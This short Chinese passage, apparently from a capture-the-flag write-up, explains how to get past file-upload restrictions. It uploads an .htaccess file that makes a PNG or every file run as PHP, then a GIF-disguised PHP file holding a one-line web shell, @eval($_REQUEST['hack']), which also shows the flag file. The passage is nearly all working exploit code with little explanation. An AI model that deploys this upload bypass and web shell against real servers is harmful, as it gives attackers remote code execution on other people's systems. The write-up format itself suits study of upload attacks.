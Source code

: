 # 


使用.htaccess来绕过限制

上传: .htaccess

```.htaccess
<FilesMatch "1.png"> 
SetHandler application/x-httpd-php 
</FilesMatch> 
```

```.htaccess
SetHandler application/x-httpd-php
```

然后传php: 

```php
GIF89a
<script language='php'> 
phpinfo();
@eval($_REQUEST['hack']);
show_source("/flag");
</script>
```

